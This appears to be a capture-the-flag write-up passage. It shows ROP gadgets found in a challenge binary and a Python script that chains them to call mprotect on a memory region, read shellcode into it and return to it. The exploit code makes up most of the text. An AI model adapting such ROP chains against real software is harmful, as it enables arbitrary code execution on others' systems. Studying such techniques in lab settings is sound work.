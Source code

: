 I uploaded the binary to [ropshell.com](https://ropshell.com) and analyzed it to find the gadgets I'd need. I found `esi/rsi` and `edi/rdi` quickly, but `edx/rdx` was nowhere to be found. Finally, I located these two gadgets:

```
0x0040068a : pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
0x00400671 : mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
```

Prepare for some mind-bending ROP chains...

```python
#!/usr/bin/python

import struct
def p(x):
    return struct.pack("L", x)

payload = ""

'''
   #0x0040068a : pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
   #0x00400671 : mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
'''

# first, fix up stack   
payload += p(0x00400690)    # pop pop ret
payload += p(0x0)
payload += p(0x0)

#### MPROTECT
# gadgets to set edi, esi and edx and call mprotect
payload += p(0x0040068a)    # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
payload += p(0x6)           # rbx   << needs to be ebp-1 for code path!
payload += p(0x7)           # rbp -> edx = mprotect.mask
payload += p(0x00601038-6*8)    # r12 -> mprotect@got.plt
payload += p(0x0)           # r13
payload += p(0x400)         # r14 -> rsi -> esi = mprotect.len
payload += p(0x20000000)    # r15 -> rdi -> edi = mprotect.addr

payload += p(0x00400671)    #mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
payload += "B"*(200-144)    # spacer

#### READ
# gadgets to set edi, esi and edx and call read
'''
   0x00000000004005f2 <+53>:    mov    edx,0x400
   0x00000000004005f7 <+58>:    mov    rsi,rax
   0x00000000004005fa <+61>:    mov    edi,0x0
   0x00000000004005ff <+66>:    mov    eax,0x0
   0x0000000000400604 <+71>:    call   0x400490 <read@plt>
'''
# 0x601020 <read@got.plt>
payload += p(0x0040068a)    # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
payload += p(0x400-1)       # rbx   << needs to be ebp-1 for code path!
payload += p(0x400)         # rbp -> edx = 0x400
payload += p(0x601020-0x3ff*8)  # r12 -> read@got.plt
payload += p(0x0)           # r13 
payload += p(0x20000000)    # r14 -> rsi -> esi = read.addr
payload += p(0x0)           # r15 -> rdi -> edi = 0?
                            # lucky for me, rax = 0
payload += p(0x00400671)    #mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
payload += "B"*(200-144)    # spacer

# return to shellcode!
```